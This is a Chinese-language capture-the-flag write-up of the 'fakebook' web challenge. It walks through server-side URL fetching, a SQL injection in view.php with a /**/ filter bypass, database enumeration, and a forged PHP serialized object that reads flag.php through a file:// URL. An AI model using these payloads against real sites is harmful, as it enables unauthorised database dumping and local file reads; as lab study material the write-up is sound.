 ![](<./img/Pasted image 20221110205018.png>)

首页

![](<./img/Pasted image 20221110205134.png>)

`/login.php`

![](<./img/Pasted image 20221110205223.png>)

`/login.php`的账号密码直接`POST`到`/login.ok.php`

![](<./img/Pasted image 20221110205532.png>)

认证失败时通过`javascript`返回上一页

![](<./img/Pasted image 20221110205740.png>)

`/join.php`

![](<./img/Pasted image 20221110205258.png>)

`/join.php`也是直接通过`POST`实现

![](<./img/Pasted image 20221110210119.png>)

提示`blog`非法

![](<./img/Pasted image 20221110210213.png>)

修改`blog`为`https://www.baidu.com`（百度，惨）
```
username=admin&passwd=123&age=18&blog=https://www.baidu.com
```

提示加入成功
```js
alert('Join success');
location.href='/';
```

返回首页能看到相关信息

![](<./img/Pasted image 20221110210541.png>)

`username`这一列还有个超链接，点击能访问`/view.php?no=1`

![](<./img/Pasted image 20221110210858.png>)

下面出现了一个没显示全的滚动条，莫非是隐藏了什么惊天大秘密QwQ

审查元素发现这里直接用的`iframe`，而且`src`用的也不是url，而是`base64`编码过后的`html`

![](<./img/Pasted image 20221110211327.png>)

改`height`属性为`1000em`，发现解码之后正是刚才`join`时输入的百度的首页，

![](<./img/Pasted image 20221110211629.png>)

这里图片加载不出来好像是图片的`src`利用了协议依赖加载的原因（？），从`base64`解码出来的页面不知道是不是把图片路径解析成`file://`协议了

像上面所说的，既然不是直接在`iframe`里提供`https://www.baidu.com`的`url`，而是提供`base64`编码的`html`文件，说明`blog`所指示的页面是在服务端被访问的

抱着好奇试了试套娃
```sql
blog=/view.php?no=3
```
![](<./img/Pasted image 20221110214123.png>)

然后服务器就炸了wuwuwu

![](<./img/Pasted image 20221110214228.png>)

~~Two thousand years later~~

重启靶机继续迫害(

虽然知道可以利用这一点来让服务器访问任意`url`，但我想不到怎么利用这点QAQ

于是郁闷的改了改`view.php`的`no`参数
```sql
/view.php?no=1
```
![](<./img/Pasted image 20221110220444.png>)

靶机重启过，所以`no=1`是不存在的

好像可以注入的样子，有点起色了
```sql
/view.php?no=a
```
![](<./img/Pasted image 20221110220630.png>)

好家伙，报了查询错误，可能确实可以`sql`注入
```sql
/view.php?no=1 union select 1#
```
> no hack ~_~

这个no hack就有种此地无银三百两的意味了QwQ

看看什么东西被ban了
```sql
/view.php?no=1 union#
```
> [\*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1)
```sql
/view.php?no=1 select#
```
还是一样的报语法错误
```sql
/view.php?no=union select
```
> no hack ~_~

确定是`"union select"`被匹配了

尝试用`/**/`绕过，然后判断注入点
```sql
/view.php?no=1 union/**/select 1,2,3,4#
```
![](<./img/Pasted image 20221110221754.png>)

发现第二列对应`username`
```sql
/view.php?no=1 union/**/select 1,group_concat(schema_name),3,4 from information_schema.schemata#
```
![](<./img/Pasted image 20221111092722.png>)

```sql
/view.php?no=1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'#
```
![](<./img/Pasted image 20221111093042.png>)

```sql
/view.php?no=1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
```
![](<./img/Pasted image 20221111093315.png>)

后来添加了一个用户
```sql
/view.php?no=2 union/**/select 1,group_concat(no),3,4 from fakebook.users#
```
![](<./img/Pasted image 20221111095911.png>)

```sql
/view.php?no=2 union/**/select 1,group_concat(username),3,4 from fakebook.users#
```
![](<./img/Pasted image 20221111095949.png>)

```sql
/view.php?no=2 union/**/select 1,group_concat(passwd),3,4 from fakebook.users#
```
![](<./img/Pasted image 20221111100022.png>)

```sql
/view.php?no=2 union/**/select 1,group_concat(data),3,4 from fakebook.users#
```
![](<./img/Pasted image 20221111100108.png>)

这里发现`data`字段是序列化过后的用户信息

![](<./img/Pasted image 20221111100358.png>)

结合反序列化的错误提示，推测`view.php`的生成基于`data`的反序列化
```sql
/view.php?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:21:"https://www.baidu.com";}'#
```
![](<./img/Pasted image 20221111100740.png>)

猜测`flag`放在`flag.php`里
```sql
/view.php?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```
```html
<iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3szNDMyZDYyZS0wMWM3LTQyMzQtOTAxOC1lYzJhMGFmMGQ0NDR9IjsNCmV4aXQoMCk7DQo='>
</div>
```
结果还真猜对了QwQ

![](<./img/Pasted image 20221111101944.png>)

#Web #SQL注入 #反序列化 #RFI